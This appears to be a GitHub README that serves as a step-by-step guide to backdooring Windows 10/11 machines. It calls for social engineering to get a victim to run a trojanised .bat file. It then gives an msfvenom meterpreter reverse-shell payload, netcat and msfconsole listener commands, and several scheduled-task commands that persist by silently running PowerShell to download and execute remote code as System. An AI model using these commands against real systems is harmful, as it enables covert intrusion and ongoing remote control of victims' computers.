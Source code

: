 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps to Compromise:

1. Make it convincing by turning it into a trojan horse.
2. Get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.)
3. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. Setup your listener with nc or msfconsole: <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
5. For persistence, create a schuled task for backdoor payload: <br>
   (x64) - On System Start <br>
   schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX      ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System <br>
 
(X64) - On User Idle (30mins) <br>
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30 <br>
 
(X86) - On User Login <br>
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onlogon /ru System <br>
  
(X86) - On System Start <br>
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System <br>
  
(X86) - On User Idle (30mins) <br>
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30 <br>

